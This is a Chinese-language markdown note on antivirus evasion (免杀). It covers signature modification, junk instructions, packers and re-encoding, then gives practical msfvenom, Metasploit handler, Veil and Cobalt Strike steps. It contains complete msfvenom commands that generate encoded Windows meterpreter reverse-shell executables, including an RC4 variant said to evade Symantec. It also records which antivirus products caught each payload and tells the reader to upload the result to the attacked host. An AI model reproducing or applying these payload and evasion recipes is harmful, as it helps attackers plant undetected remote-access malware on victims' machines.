





# 免杀
### 扫描免杀的方式
* 特征码扫描
    1. 文件特征码扫描
    2. 内存特征码
* 文件校验和
* 进程行为检测法
### 免杀技术基本原理
* 修改特征码
    1. 一种是改特征码
    2. 第二种是针对目前推出的校验和查杀技术提出的免杀思想
* 花指令免杀
    1. 花指令其实就是一段毫无意义的指令，也可以称之为垃圾指令。花指令是否存在对程序的执行结果没有影响，所以它存在的唯一目的就是阻止反汇编程序，或对反汇编设置障碍
    2. 大多数反病毒软件是靠特征码来判断文件是否有毒的，而为了提高精度，现在的特征码都是在一定偏移量限制之内的，否则会对反病毒软件的效率产生严重的影响！而在黑客们为一个程序添加一段花指令之后，程序的部分偏移会受到影响，如果反病毒软件不能识别这段花指令，那么它检测特征码的偏移量会整体位移一段位置，自然也就无法正常检测木马了。
* 加壳免杀
    1. 简单地说，软件加壳其实也可以称为软件加密，或软件压缩，当我们运行这个加壳的程序时，系统首先会运行程序的“壳”，然后由壳将加密的程序逐步还原到内存中，最后运行程序。这样一来，在我们看来，似乎加壳之后的程序并没有什么变化，然而它却达到了加密的目的，这就是壳的作用。
    2. 加壳虽然对于特征码绕过有非常好的效果，加密壳基本上可以把特征码全部掩盖，但是缺点也非常的明显，因为壳自己也有特征。在某些比较流氓的国产杀软的检测方式下，主流的壳如VMP, Themida等，一旦被检测到加壳直接弹框告诉你这玩意儿有问题，虽然很直接，但是还是挺有效的。有些情况下，有的常见版本的壳会被直接脱掉分析。

    3. 面对这种情况可以考虑用一切冷门的加密壳，有时间精力的可以基于开源的压缩壳改一些源码，效果可能会很不错。
* 二次编译
    1. shikata_ga_nai是msf中唯一的评价是excellent的编码器，这种多态编码技术使得每次生成的攻击载荷文件是不一样的，编码和解码也都是不一样。还可以利用管道进行多重编码进行免杀。
    2. 目前msfvenom的encoder特征基本都进入了杀软的漏洞库，很难实现单一encoder编码而绕过杀软
* 分离免杀
    不懂
* 资源修改
    1. 加资源
    2. 替换资源
    3. 加签名

### msf免杀

部分参数解读

```
-a, –arch < architecture> 指定payload的目标架构，例如x86 | x64 | x86_64

–platform < platform> 指定payload的目标平台

-l, –list [module_type] 列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all

-p,-payload 指定需要使用的payload
-f 指定输出格式 --help-formats 来获取msf支持的输出格式列表

-i, –iterations < count> 指定payload的编码次数

-e, –encoder [encoder] 指定需要使用的encoder（编码器）,指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload 

想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项，可以使用msfvenom -p windows/meterpreter/reverse_tcp --list-options

-o, –out < path> 指定创建好的payload的存放位置

-x 指定模板(可以用其他的安装exe)

-k 该选项可以保留模版原来的功能，将payload作为一个新的线程来注入，但不能保证可以用在所有可执行程序上

```
* session 问题
    1. 经常会遇到假session或者刚连接就断开的情况，这里补充一些监听参数，防止假死与假session

            handler) > set ExitOnSession false   //可以在接收到seesion后一直保持侦听，需要用户主动打断侦听

    2. 防止sessions 意外退出

                handler) > set SessionCommunicationTimeout 0  //默认情况下，如果一个会话将在5分钟（300秒）没有任何活动，那么它会被杀死,为防止此情况可将此项修改为0
    3. handler 持续监听

            使用exploit -j -z可在后台持续监听,-j为后台任务，-z为持续监听，使用Jobs命令查看和管理后台任务。jobs -K可结束所有任务。
    4. 快捷的监听方式，直接就是后台监听，只是msf的后台，可以通过jobs 查看后台任务，可以通过jobs -h 查看帮助

                handler -H ip - P port -p windows/meterpreter/reverse_tcp
    5. payload的可持续化
*  成payload时可直接使用如下命令，生成的payload会直接注入到指定进程中

            msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.32 LPORT=4444 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=explorer.exe -f exe -o  a.exe
    * 针对上面payload 
        1. 即使杀掉a.exe 仍然能保持链接.普通payload无法
        2. 但重启后不能连接,就不清楚了

* 利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮下执行meterpreter。


        msfvenom -p  windows/meterpreter/reverse_tcp_rc4  -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=explorer.exe  lhost=192.168.3.40  lport=4444  RC4PASSWORD=tidesec  -f exe -o b.exe   

## Veil 
* veil结合msf
* 普通结合msf
    1. list 查看payload 
     
    2. use payload
    3. options 查看需要设置的参数
     
    4. 生成payload,(会生成一个rc文件)上传exe到被攻击的主机
    
    5. 快捷监听msf msfconsole -r aaa.rc
    6. 杀软测试
       1. 火绒没扫描出来
       2. 360 被杀
       3. virus 46/71
* msf 结合cobalt strike
    1. cobalt strike生成payload

        
    2. 对于CS生成的payload (\x00...)，需使用shellcode_inject类型的stager进行免杀
        我使用的是go/shellcode_inject/virtual
    3. 其余方式与上面差不多，把cs生成的payload复制粘贴放入其中就行了
        
        

    4. 放入被攻击机器，cobalt strike上线
    6. 杀软测试
        1. 360没查杀
        2. 火绒没查杀
        3. virus 33/71

* 公司测试

[veil](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247484786&idx=1&sn=ad9d407c1609fec077e5d58860de7385&scene=21#wechat_redirect)

## ns_payload xml 文件
1. 条件 
    
        .NET Framework>=4.0
## shellter

[多种免杀](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247485262&idx=1&sn=bf3a0c3437f5f5a0f3ce32263775816d&chksm=ce5e252ff929ac39f7145e950c5f0470f4fb92b05555e630875fde44100bf1d7550d27ff6b09&mpshare=1&scene=23&srcid=&sharer_sharetime=1580921637563&sharer_shareid=83755ee3783cda9873fe18794ec48d1d#rd)